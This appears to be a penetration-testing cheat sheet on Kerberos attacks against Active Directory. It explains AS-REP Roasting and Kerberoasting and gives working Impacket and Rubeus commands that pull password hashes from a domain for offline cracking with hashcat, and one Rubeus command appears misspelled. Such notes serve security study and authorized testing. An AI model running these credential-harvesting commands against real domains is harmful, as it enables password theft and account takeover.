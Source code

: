 
## Kerberos Attacks

### AS-REP Roasting

After Kerberos' Authentication Server Request (AS-REQ) from CLIENT to KEY DISTRIBUTION CENTER (KDC), KDC should validate the encrypted timestamp by looking up password hash of username specified in AS-REQ.

This is called **Kerberos preauthentication**.

"Do not require Kerberos preauthentication" is a setting that *may* be applied to some users, but is not enabled by default. This means KDC won't validate the AS-REQ so we can receive an encrypted AS-REP with any user's password hash depending on the username we supplied in AS-REQ.

We can try to crack the password hash of the user from the session key used to encrypt AS-REP. 

**Tools**

KALI: Can use `impacket-GetNPUsers` to enumerate vulnerable users

```
// Need access to target user specified below to enumerate AS-REP-Roastable users across the domain
impacket-GetNPUsers -dc-ip <TARGET_DOMAIN_CONTROLLER> -request -outputfile hashes.asreproast <TARGET_DOMAIN>/<TARGET_USER>
```

WINDOWS: Can use `Rubeus` to obtain AS-REP hash

```
# /nowrap prevents new line from being added to the outputted hashes
.\Rubeus.exe asresproast /nowrap
```

THEN use Hashcat with AS-REP config to crack user's password.

### Kerberoasting

When a user account (NOT a computer account) has a Service Principal Name (SPN) associated with it, you can request a ticket to the TGS for the respective service (TGS-REQ).

The response (TGS-REP) contains an encrypted service ticket using the SPN's associated user account password hash. Kerberoasting is cracking this hash.

**Tools**

KALI: Can use `impacket-GetUserSPNs` to enumerate Kerberoastable user accounts and get hashes

```
// Need access to target user specified below to enumerate Kerberoastable users across the domain
impacket-GetUserSPNs -request -dc-ip <TARGET_DOMAIN_CONTROLLER> <TARGET_DOMAIN>/<TARGET_USER>
```

WINDOWS: Can use `Rubeus` to enumerate Kerberoastable users and obtain hashes

```
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```
 
THEN plug into hashcat with TGS-REP config to crack user's password.  
